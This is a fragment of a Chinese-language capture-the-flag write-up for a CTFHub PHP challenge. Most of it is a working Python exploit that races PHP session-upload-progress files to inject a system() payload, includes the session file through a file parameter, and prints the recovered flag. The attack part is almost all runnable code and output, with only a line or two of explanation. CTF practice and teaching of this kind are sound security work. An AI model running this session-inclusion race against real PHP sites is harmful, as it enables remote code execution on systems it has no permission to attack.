 ```
    return False;
}
?>
```

传个eval可以直接看到phpionfo![image85d1e6c8234890ca.png](https://z4a.net/images/2022/06/02/image85d1e6c8234890ca.png)



用个脚本就行，还有文件包含的方法有时间再试试

```python
import io
import sys
import requests
import threading
host = 'http://challenge-983911a7e85eadf8.sandbox.ctfhub.com:10800/'
sessid = 'aa'
def POST(session):
    while True:
        f = io.BytesIO(b'a' * 1024 * 50)
        session.post(
            host,
            data={"PHP_SESSION_UPLOAD_PROGRESS":"<?php system('cat flag_is_here_not_are_but_you_find');echo md5('1');?>"},
            files={"file":('a.txt', f)},
            cookies={'PHPSESSID':sessid},
        )
 
def READ(session):
    while True:
        response = session.get(f'{host}?file=/tmp/sess_{sessid}')
        # print(response.text)
        if 'c4ca4238a0b923820dcc509a6f75849b' not in response.text:
            print('[+++]retry')
        else:
            print(response.text)
            break
 
with requests.session() as session:
    t1 = threading.Thread(target=POST, args=(session, ))
    t1.daemon = True
    t1.start()
    READ(session)
```

![image56affc20afdb8901.png](https://z4a.net/images/2022/06/02/image56affc20afdb8901.png)

得到flag

```
ctfhub{b3e1bc40dcd3963ea50bed39}
```

